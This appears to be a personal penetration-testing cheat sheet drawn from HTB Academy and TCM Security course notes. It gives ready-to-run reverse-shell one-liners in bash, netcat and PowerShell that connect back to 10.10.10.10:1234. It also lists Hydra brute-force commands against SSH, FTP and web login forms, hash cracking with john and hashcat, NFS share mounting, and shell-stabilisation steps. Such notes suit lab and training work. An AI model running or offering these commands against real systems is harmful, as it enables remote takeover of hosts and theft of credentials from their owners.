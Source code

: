 
[PayloasAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Methodology%20and%20Resources)

[File Transfer Notes](obsidian://open?vault=Main-Notes&file=%F0%9F%9F%A9HTB%20Academy%2F07_File%20Transfers%2FMiscellaneous%20File%20Transfer%20Methods)
- More File Transfer [Notes](obsidian://open?vault=Main-Notes&file=%F0%9F%A6%8ATCM%20Security%2FPEH%2FAD_7_Post%20Exploitation%2F0_File%20Transfers)
[MSFVenom Notes](obsidian://open?vault=Main-Notes&file=%F0%9F%9F%A9HTB%20Academy%2F08_Shells%20%26%20Payloads%2FCrafting%20Payloads%20with%20MSFvenom)

The below commands are reliable commands we can use to get a reverse connection, for `bash` on Linux compromised hosts and `Powershell` on Windows compromised hosts:

Code: bash

```bash
bash -c 'bash -i >& /dev/tcp/10.10.10.10/1234 0>&1'
```

Code: bash

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.10 1234 >/tmp/f
```

Code: powershell

```powershell
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.10.10',1234);$s = $client.GetStream();[byte[]]$b = 0..65535|%{0};while(($i = $s.Read($b, 0, $b.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($b,0, $i);$sb = (iex $data 2>&1 | Out-String );$sb2 = $sb + 'PS ' + (pwd).Path + '> ';$sbt = ([text.encoding]::ASCII).GetBytes($sb2);$s.Write($sbt,0,$sbt.Length);$s.Flush()};$client.Close()"

```

### Service Exploitation

- Search for Exploits: `searchsploit <service>`
- Misconfigurations:
    - Anonymous #FTP login: `ftp <target>`
    - Weak credentials: `hydra -L users.txt -P passwords.txt ftp://<target>`
- Outdated Software:
    - Exploit known vulnerabilities (e.g., #EternalBlue for #SMBv1)
    - `metasploit` for automated exploitation
- #NFS Shares:
    - `showmount -e <target>`
    - `mount -t nfs <target>:/share /mnt`

### Password Attacks

- #Hydra:
    - `hydra -L users.txt -P passwords.txt ssh://<target>`
    - `hydra -l admin -P passwords.txt http-post-form "/login.php:user=^USER^&pass=^PASS^:Invalid"`
- [Crack Hashes](https://crackstation.net/):
    - `john --wordlist=/usr/share/wordlists/rockyou.txt hashes.txt`
    - `hashcat -m 1000 hashes.txt /usr/share/wordlists/rockyou.txt`
	    - add `--show` to show cracked hashes and passwords
		* **rockyou2021 password list is trillion passwords, 91GB!**
		* One Rule to rule them all
			* `-r OneRule`
			* Mutates password list, use with rockyou/rockyou2021

## Upgrade Shells

- Stablize shell 
	- Step 1: `python3 -c 'import pty;pty.spawn("/bin/bash")'`  
	- Step 2: `CTRL + Z`  
	- Step 3: `stty raw -echo; fg` 
	- Step 4: `export TERM=xterm`
- Or
	- `rlwrap nc localhost 80`
	- `rlwrap -r -f . nc <IP ADDRESS> <PORT>`

```c
==ENUMERATE AGAIN AFTER EXPLOITING!==
```
